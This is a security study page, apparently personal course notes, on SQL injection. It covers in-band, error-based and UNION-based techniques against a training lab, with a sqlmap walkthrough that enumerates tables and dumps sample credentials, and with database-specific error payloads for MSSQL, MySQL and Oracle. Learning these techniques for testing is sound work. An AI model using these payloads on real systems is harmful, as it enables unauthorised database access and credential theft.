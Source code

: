 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# In Band

{% hint style="info" %}
**In-Band SQLi** occrus when an attacker uses the same channel to both execute malicious SQL queries and retrieve the results.
{% endhint %}

## Basic Workflow

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

The web application that we need to test has a `search` field associated with the `username` parameter (Figure 1).

<figure><img src="../../../.gitbook/assets/web_sqli_inBand_usernameParam.png" alt=""><figcaption><p>Figure 1: Using the application as intented.</p></figcaption></figure>

By fuzzing the `username` parameter using Burp Intruder's built-in SQLi wordlist, we can see that the results of a successful payload are returned within the HTTP response (Figure 2), which makes this an In Band SQLi.

<figure><img src="../../../.gitbook/assets/web_sqli_inBand_intruder.png" alt=""><figcaption><p>Figure 2: Fuzzing the <code>username</code> parameter with built-in SQLi payloads.</p></figcaption></figure>

Since the SQLi vulnerability is confirmed, we can write the request to a file (_right-click_ > _Copy to file_) and continue testing using [`sqlmap`](sqlmap.md).

{% tabs %}
{% tab title="Basic Info" %}
{% code overflow="wrap" %}
```bash
$ sqlmap -r post_request.txt --batch
<SNIP>
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 75 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=jeremy' AND (SELECT 6462 FROM (SELECT(SLEEP(5)))zkFr) AND 'GiCb'='GiCb

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: username=jeremy' UNION ALL SELECT NULL,NULL,CONCAT(0x7162766271,0x534a50534a684c7153486868667a4656547777534b5257724a66486c4a506858526c6c6a51467a6d,0x71716b6a71)-- -
---
[11:57:33] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.54, PHP 7.4.33
back-end DBMS: MySQL >= 5.0.12
```
{% endcode %}
{% endtab %}

{% tab title="Current DB" %}
```bash
# enumerating the current database
$ sqlmap -r post_request.txt --batch --current-db
<SNIP>
[12:04:04] [INFO] fetching current database
current database: 'bb-labs'
```
{% endtab %}

{% tab title="Tables" %}
```bash
$ sqlmap -r post_request.txt --batch -D bb-labs --tables
<SNIP>

[12:07:28] [INFO] fetching tables for database: 'bb-labs'
Database: bb-labs
[14 tables]
+------------------------+
| api0x01                |
| auth0x02               |
| auth0x03               |
| c0x03                  |
| csrf0x01               |
| csrf0x02               |
| idor0x01               |
| injection0x01          |
| injection0x02          |
| injection0x03_products |
| injection0x03_users    |
| injection0x04          |
| xss0x02                |
| xss0x03                |
+------------------------+
```
{% endtab %}

{% tab title="Data" %}
{% code overflow="wrap" %}
```bash
$ sqlmap -r post_request.txt --batch -D bb-labs -T injection0x01 --dump
<SNIP>

[12:09:12] [INFO] fetching columns for table 'injection0x01' in database 'bb-labs'
[12:09:12] [INFO] fetching entries for table 'injection0x01' in database 'bb-labs'
Database: bb-labs
Table: injection0x01
[3 entries]
+---------------------+------------------+----------+
| email               | password         | username |
+---------------------+------------------+----------+
| jeremy@example.com  | jeremyspassword  | jeremy   |
| jessamy@example.com | jessamyspassword | jessamy  |
| bob@example.com     | bobspassword     | bob      |
+---------------------+------------------+----------+
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Error-Based

{% hint style="info" %}
**Error-based SQLi** occurs when the attacker inserts SQL commands to deliberately generate database errors, which can used to expose database details, such as table and column names, allowing the attacker to extract sensitive information.
{% endhint %}

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

On way of making a database to return verbose error messages, which often include its version, is by forcing erroneous data type conversions (Figure 3).

```sql
// MSSQL and PostgreSQL payload
cast(@@version as integer)
```

<figure><img src="../../../.gitbook/assets/web_sqli_error_based_1.png" alt=""><figcaption><p>Figure 3: Forcing a verbose error message disclosing the database's version.</p></figcaption></figure>

MySQL returns a `null` value instead of throwing an error, so its XML functions need to be used: `ExtractValue()` and `UpdateXML()`. The goal while using the former is to submit an invalid XPath expression. In this case, the `>` is used because it is a delimiter in XML and cannot be part of a valid XML node.

```sql
// MySQL payload
extractvalue('',concat('>',version()))
```

For Oracle databases, the syntax is becoming more complicated and a sub-query along with the double pipe operator (`||`) for concatenation needs to be used.

```sql
to_char(
  dbms_xmlgen.getxml(
    'select "'||
      (select substr(banner,0,30) from v$version where rownum=1)
    ||'" from sys.dual'
  )
) 
```

## UNION-Based

{% hint style="info" %}
A **UNION SQLi** occurs when an attacker uses the `UNION` SQL operator to combine the results of malicious queries with the results of legitimate queries, often to retrieve additional data.
{% endhint %}

When using a `UNION` two conditions must be met:

1. The invididual queries must return the same number of columns.
2. The data types in each column must be compatible between the individual queries.

As a result, launching a successful `UNION` attack requires us to answer:

1. How many columns are returned from the original query?
2. Which columns are suitable to hold the results from the injected query?

We can enumerate the column number by incrementing an `ORDER BY` clause's index until it errors. The number represents the column's index; when this exceeds the number of the actual columns we will get an index-related error (Figure 4a & 4b).

<figure><img src="../../../.gitbook/assets/lab1_sqli_test_burp.png" alt=""><figcaption><p>Figure 3: Detecting SQLi.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/lab1_orderby1_burp.png" alt=""><figcaption><p>Figure 4a: Indexing the first column.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/lab1_orderby4_burp.png" alt=""><figcaption><p>Figure 4b: Indexing the 4th column returns a server error.</p></figcaption></figure>

We can also use the `UNION SELECT NULL` payload to achieve the same goal (Figure 5).

<figure><img src="../../../.gitbook/assets/lab1_solved_burp.png" alt=""><figcaption><p>Figure 5: Enumerating the number of columns using UNION SELECT NULL.</p></figcaption></figure>

After finding the number of columns returned, we need to exfiltrate data which is usually in text form. As a result, we must enumerate which column in the original query can hold text data. This can be done by passing a random string column by column until the server accepts it (Figure 6).

<figure><img src="../../../.gitbook/assets/lab2_datatype_pos (1).png" alt=""><figcaption><p>Figure 6: Enumerating a column that accepts strings.</p></figcaption></figure>
